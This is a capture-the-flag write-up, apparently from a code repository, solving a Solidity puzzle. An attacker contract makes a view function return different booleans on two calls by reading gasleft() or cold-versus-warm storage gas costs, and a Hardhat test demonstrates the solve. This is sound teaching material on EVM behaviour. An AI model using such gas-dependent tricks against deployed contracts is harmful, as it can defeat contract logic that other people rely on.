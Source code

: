 # Custom Challenge: True XOR

**Objective of CTF:**

- Make a successfull call to the `ctf` function.
- The given `target` parameter should belong to a contract deployed by you, and should use `IBoolGiver` interface.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBoolGiver {
  function giveBool() external view returns (bool);
}

contract TrueXOR {
  function ctf(address target) external view returns (bool) {
    bool p = IBoolGiver(target).giveBool();
    bool q = IBoolGiver(target).giveBool();
    require((p && q) != (p || q), "bad bools");
    require(msg.sender == tx.origin, "bad sender");
    return true;
  }
}
```

## The Solution

The logical operation that is happening in `ctf` basically does an XOR. If the XOR of `p` and `q` is 0, the transaction will revert. Furthermore, we require the sender to be an EOA.

The question boils down to this: how can we return different values from a `view` function? We need to somehow change the state without using `view`, but how can we do that? Well, we don't have to be the ones to change the state; EVM does it literally every instruction by changing the `gasleft` result! So, if we can find the remaining gas in between the two calls to `giveBool`, we can use that to return a different result.

### Proof of Concept

Here is the attacker contract:

```solidity
contract TrueXORAttacker is IBoolGiver {
  uint t = 28543000;

  function giveBool() external view override returns (bool) {
    uint g = gasleft();
    return g < t;
  }

  function changeThreshold(uint _t) external {
    t = _t;
  }
}
```

We added an extra `changeThreshold` function to avoid deploying a new contract in case we miss the sweet spot for the `gasleft`. In my case, `28543000` was the correct amount, such that within the first call there is more gas, and within the second call there is less gas.

The Hardhat test code to demonstrate this attack is given below. Contract types are generated via TypeChain.

```typescript
describe('Custom: True XOR', () => {
  let contract: TrueXOR;
  let attackerContract: TrueXORAttacker;
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('TrueXOR', owner).then(f => f.deploy());
    await contract.deployed();
  });

  it('should call `ctf` successfully', async () => {
    // deploy the attacker contract
    attackerContract = await ethers.getContractFactory('TrueXORAttacker', attacker).then(f => f.deploy());
    await attackerContract.deployed();

    expect(await contract.connect(attacker).ctf(attackerContract.address)).to.be.true;
  });
});
```

## Alternative Solution

If you look into detials of loading a storage variable, you will see that the first time a storage variable is loaded, it will cost minimum 2100 gas. Later loads however will cost a lot less, around a minimum 100. So, the gas usage of a storage variable load can tell us whether a function has been called before or not.

Here is an example contract for this scenario:

```solidity
contract TrueXORAttacker2 is IBoolGiver {
  uint256 slot0 = 12345;

  function giveBool() external view override returns (bool) {
    uint gas = gasleft();
    uint tmp = slot0;
    tmp; // silence warning
    return (gas - gasleft()) >= 2000;
  }
}
```

This works fine too!
